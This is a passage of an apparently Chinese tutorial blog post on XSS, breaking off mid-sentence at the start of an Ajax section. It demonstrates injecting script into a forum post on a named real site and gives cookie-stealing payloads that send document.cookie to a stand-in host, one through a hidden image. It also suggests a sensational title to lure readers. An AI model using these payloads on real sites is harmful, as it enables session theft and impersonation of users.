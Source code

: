 title: 网站安全之ｘｓｓ／ｃｒｓｆ
id: 328
categories:
  - 安全
date: 2015-11-13 16:42:54
tags:
---

## XSS脚本攻击

XSS是什么？它的全名是：Cross-site scripting，为了和CSS层叠样式表区分，所以取名XSS。它是一种网站应用程序的安全漏洞攻击，是代码注入的一种。它允许恶意用户将代码注入到网页上，其他用户在观看网页时就会受到影响。这类攻击通常包含了HTML标签以及用户端脚本语言。

### 　　名城苏州网站注入

XSS注入常见的重灾区是社交网站和论坛，越是让用户自由输入内容的地方，我们就越要关注其能否抵御XSS攻击。XSS注入的攻击原理很简单，构造一些非法的url地址或js脚本让HTML标签溢出，从而造成注入。一般引诱用户点击才触发的漏洞我们称为反射性漏洞，用户打开页面就触发的称为注入型漏洞，当然注入型漏洞的危害更大一些。下面先用一个简单的实例来说明XSS注入无处不在。

名城苏州（www.2500sz.com)，是苏州本地门户网站，日均的pv数也达到了150万，它的论坛用户数很多，是本地化新闻、社区论坛做的比较成功的一个网站。

接下来我们将演示一个注入到2500sz.com的案例，我们先注册成一个2500sz.com站点会员，进入论坛板块，开始发布新帖。打开发帖页面，在web[编辑器](http://cpro.baidu.com/cpro/ui/uijs.php?adclass=0&amp;app_id=0&amp;c=news&amp;cf=1001&amp;ch=0&amp;di=128&amp;fv=0&amp;is_app=0&amp;jk=95c351b31afbdc06&amp;k=%B1%E0%BC%AD%C6%F7&amp;k0=%B1%E0%BC%AD%C6%F7&amp;kdi0=0&amp;luki=3&amp;n=10&amp;p=baidu&amp;q=06011078_cpr&amp;rb=0&amp;rs=1&amp;seller_id=1&amp;sid=6dcfb1ab351c395&amp;ssp2=1&amp;stid=0&amp;t=tpclicked3_hc&amp;td=1922429&amp;tu=u1922429&amp;u=http%3A%2F%2Fwww%2Eadmin10000%2Ecom%2Fdocument%2F4182%2Ehtml&amp;urlid=0)中输入如下内容：

![](http://www.admin10000.com/UploadFiles/Document/201404/07/20140407092037854689.JPG)

上面的代码即为分享一个网络图片，我们在图片的src属性中直接写入了[javascript](http://cpro.baidu.com/cpro/ui/uijs.php?adclass=0&amp;app_id=0&amp;c=news&amp;cf=1001&amp;ch=0&amp;di=128&amp;fv=0&amp;is_app=0&amp;jk=95c351b31afbdc06&amp;k=javascript&amp;k0=javascript&amp;kdi0=0&amp;luki=4&amp;n=10&amp;p=baidu&amp;q=06011078_cpr&amp;rb=0&amp;rs=1&amp;seller_id=1&amp;sid=6dcfb1ab351c395&amp;ssp2=1&amp;stid=0&amp;t=tpclicked3_hc&amp;td=1922429&amp;tu=u1922429&amp;u=http%3A%2F%2Fwww%2Eadmin10000%2Ecom%2Fdocument%2F4182%2Ehtml&amp;urlid=0):alert('xss');，操作成功后生成帖子，用IE6、7的用户打开此帖子就会出现下图的alert('xss')弹窗。

![](http://www.admin10000.com/UploadFiles/Document/201404/07/20140407092037002853.JPG)

当然我们要将标题设计的非常夺人眼球，比如“Pm2.5雾霾真相披露” ，然后将里面的alert换成如下恶意代码：
<pre>location.href='http://www.xss.com?cookie='+document.cookie；</pre>
这样我们就获取到了用户cookie的值，如果服务端session设置过期很长的话，以后就可以伪造这个用户的身份成功登录而不再需要用户名密码，关于session和cookie的关系我们在下一节中将会详细讲到。这里的location.href只是出于简单，如果做了跳转这个帖子很快会被管理员删除，但我们写如下代码，并且帖子的内容也是真实的，那么就会祸害很多人：
<pre>var img = document.createElement('img');
img.src='http://www.xss.com?cookie='+document.cookie;
img.style.display='none';
document.getElementsByTagName('body')[0].appendChild(img);</pre>
这样就神不知鬼不觉的把当前用户cookie的值发送到恶意站点，恶意站点通过GET参数，就能获取用户cookie的值。通过这个方法可以拿到用户各种各样的私密数据。

### 　　Ajax的XSS注入

另一处容易造成XSS注入的地方是Ajax的不正确使用。

比如有这样的一个场景，在一篇博文的详细页，很多用户给这篇博文留言，为了加快页面加载速度，项目经理要求先显示博文的内容，然后通过Ajax去获取留言的第一页信息，留言功能通过Ajax分页保证了页面的无刷新和快速加载，此做法的好处有：

